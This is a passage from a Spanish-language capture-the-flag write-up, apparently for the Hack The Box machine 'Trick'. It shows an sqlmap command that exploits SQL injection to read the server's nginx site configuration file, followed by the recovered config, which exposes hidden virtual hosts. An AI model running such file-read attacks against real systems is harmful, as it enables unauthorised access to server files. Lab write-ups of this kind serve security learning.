 ```bash
#	server {
#		listen     localhost:110;
#		protocol   pop3;
#		proxy      on;
#	}
#
#	server {
#		listen     localhost:143;
#		protocol   imap;
#		proxy      on;
#	}
#}
```

escaneamos este archivo <i>include /etc/nginx/sites-enabled/default;</i> que es el enlace simbólico predeterminado del host en el servidor Web

```bash
root@loe# sqlmap -r trick_burp_nginx_FILE.req --batch --dbms mysql --threads 10 --file-read=/etc/nginx/sites-enabled/default
...
root@loe# cat /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-enabled_default
server {
listen 80 default_server;
listen [::]:80 default_server;
server_name trick.htb;
root /var/www/html;

index index.html index.htm index.nginx-debian.html;

server_name _;

location / {
try_files $uri $uri/ =404;
}

location ~ \.php$ {
include snippets/fastcgi-php.conf;
fastcgi_pass unix:/run/php/php7.3-fpm.sock;
}
}


server {
listen 80;
listen [::]:80;

server_name preprod-marketing.trick.htb;

root /var/www/market;
index index.php;

location / {
try_files $uri $uri/ =404;
}

location ~ \.php$ {
include snippets/fastcgi-php.conf;
fastcgi_pass unix:/run/php/php7.3-fpm-michael.sock;
}
}

server {
```